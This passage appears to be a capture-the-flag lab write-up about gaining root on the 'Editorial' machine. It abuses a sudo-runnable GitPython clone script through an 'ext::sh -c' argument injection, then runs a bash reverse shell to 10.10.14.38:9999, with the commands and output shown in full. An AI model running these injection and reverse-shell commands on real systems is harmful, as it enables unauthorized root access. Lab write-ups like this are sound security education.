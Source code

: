 <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Comparing the line to the `clone_prod_change.py` script. It shows the `url_to_clone argument` is vulnerable because its lacking proper user input validation.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Running the command from the PoC we find the pwned file in our /tmp folder confirming the RCE has worked.

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/home/dev/apps$ ls /tmp
pwned   
```

Finally we write a shell to root.sh in /tmp/root.sh and call the file using the python script resulting in running the root.sh file which would open a new shell on our VM as root user.

{% code overflow="wrap" %}
```bash
prod@editorial:/tmp$ echo 'bash -i >& /dev/tcp/10.10.14.38/9999 0>&1' > root.sh
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/root.sh'
```
{% endcode %}

Giving us as a new shell as root user.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
